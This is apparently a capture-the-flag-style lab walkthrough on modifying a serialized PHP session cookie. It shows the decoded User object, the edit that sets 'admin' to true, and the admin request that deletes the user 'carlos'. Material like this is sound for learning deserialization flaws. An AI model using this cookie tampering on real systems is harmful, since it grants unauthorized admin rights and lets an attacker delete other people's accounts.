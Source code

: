 # Modifying serialized objects

**1. Make request to**
```http
GET /my-account
```
</br>

**2. Edit the session cookie by decoding it in the inspector tab**
`session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d`

</br>

**3. The decoded session cookie:**
```php
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}
```
</br>

**ATTN!**
```
Take note: the cookie is a serialized PHP object. 
The `admin` attribute contains `b:0`, indicating the boolean value `false.` 
Change value of `admin` attribute to `b:1`, and click "apply changes"
```
</br>

**4. The edited session cookie:**
```php
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;}
```
</br>

**5. Then make request to `GET /admin`
And you can delete carlos from there.**
```http
GET /admin/delete?username=carlos
```
